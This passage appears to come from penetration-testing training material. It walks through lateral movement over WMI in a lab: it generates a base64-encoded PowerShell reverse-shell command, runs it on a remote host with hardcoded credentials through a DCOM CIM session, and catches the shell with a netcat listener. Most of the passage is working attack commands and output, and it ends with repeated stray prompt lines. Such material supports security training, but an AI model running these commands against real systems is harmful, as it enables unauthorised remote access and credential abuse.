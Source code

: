 > Listing 6 - Executing the WMI PowerShell payload.

Once we have saved the Python script, we can run it and retrieve the output to use later.

```
kali@kali:~$ python3 encode.py
powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAU...
OwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

> Listing 7 - Running the base64 encoder Python script

After setting up a Netcat listener on port 443 on our Kali machine, we can move on to client74 and run the PowerShell WMI script with the newly generated encoded reverse shell payload.

```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```

> Listing 8 - Executing the WMI payload with base64 reverse shell

From the output in Listing 8, we can conclude that the process creation has been successful, and switch to our listener for a final confirmation.

```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 49855

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> hostname
FILES04

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> whoami
corp\jen
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
